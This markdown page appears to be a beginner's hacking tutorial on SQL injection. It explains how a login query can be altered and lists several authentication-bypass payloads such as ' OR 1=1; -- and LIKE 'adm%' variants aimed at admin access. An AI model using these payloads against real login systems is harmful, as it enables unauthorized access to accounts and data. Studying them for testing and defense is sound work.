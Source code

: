 # SQL Injection
<!-- brief: Basic SQL injection -->
<!-- keywords: username, password -->
SQL makes queries into a database with statements like:
```sql
SELECT * FROM users WHERE username='chris' AND password='letmein';
```
This selects all entries from a database table where the username and password match those supplied.

If the user inputted data (the username and password entered in a login box, for example) is passed directly to this query, then what the user enters can manipulate the query.

The basic injection used for hacking the SQL is to enter `' OR 1=1; --` in the username box on the login screen and anything in the password, which would change the above select query to:
```sql
SELECT * FROM users WHERE username='' OR 1=1; -- ' AND password='letmein';
```
This injection first closes the single quote for the `username=''` part, then adds `OR 1=1` (`1=1` is always true in SQL) and then comments out the rest of the line using `--`, so the password has no effect. This updated query will return every row in the `users` table.

If the code checks that at least one row is returned, then this could give you entry to a site.

## Alternative injections to try
Some MySQL databases don't treat the `--` as a single line comment. Use:
```
' OR 1=1; #
```
Try without the semi-colon:
```
' OR 1=1 --
```
Quote the `1` digits:
```
' OR '1'='1' --
```
Use `LIKE` with the wildcard `%` to also match everything:
```
' OR username LIKE '%' --
```
Use `LIKE` with a specific username, which may give you elevated access, as the code may use a returned ID from the table to identify the logged in user:
```
' OR username LIKE 'admin' --
```
Or with a wildcard to get `admin`, `admins`, `administrator`, etc.:
```
' OR username LIKE 'adm%' --
```
